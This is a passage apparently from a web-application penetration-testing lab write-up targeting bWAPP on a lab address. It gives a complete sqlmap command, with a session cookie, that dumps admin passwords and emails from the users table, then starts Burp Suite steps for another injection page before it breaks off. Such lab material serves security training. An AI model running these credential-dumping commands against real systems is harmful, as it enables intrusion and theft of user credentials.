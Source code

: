 - Dump `password` and `email` for **admin** from the `users` table

```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump
```

![SQLMap Dump](1-webapp-httpassets/image-20230504193430547.png)

- Turn off Intercept mode in BurpSuite, navigate to `http://192.42.186.3/sqli_6.php` and turn back on Intercept mode.
  - Search `example` string from the page and intercept it
  - **Copy to file** the request and name the filerequest`
